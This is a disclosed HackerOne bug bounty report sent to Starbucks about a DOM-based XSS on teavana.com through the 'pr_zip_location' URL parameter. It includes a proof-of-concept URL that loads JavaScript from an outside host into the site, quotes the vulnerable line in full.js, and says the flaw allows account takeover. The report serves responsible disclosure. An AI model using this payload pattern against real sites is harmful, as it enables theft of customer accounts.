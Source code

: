 # DOM XSS on teavana.com via "pr_zip_location" parameter

## Report Details
- **Report ID**: 209736
- **URL**: https://hackerone.com/reports/209736
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-01T00:57:21.852Z
- **Disclosed**: 2017-05-03T13:33:55.922Z

## Reporter
- **Username**: fizhimchik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hello Starbucks team,,

I've discovered DOM XSS on `teavana.com` involving `pr_zip_location` URL parameter. PoC:

http://www.teavana.com/us/en/tea/green-tea/winterberry-tea-blend-32601.html?pr_zip_location=//whitehat-hacker.com/xss.j?

Works in all major browsers. Vulnerable code is in `full.js`:

```js
var DR = Z(DS) + "/content/" + k(DQ) + "/contents.js";
```

That allows to execute absolutely arbitrary javascript in the context on `teavana.com` domain. As described in #202011 that directly leads to theft of customer account data and account takeover, hence I set severity to Critical.

Also, I have discovered a number of other XSS attacks on similar pages, involving other parameters and sinks. Should I submit them all as individual bug reports?

Thanks.


## Attachments
No attachments
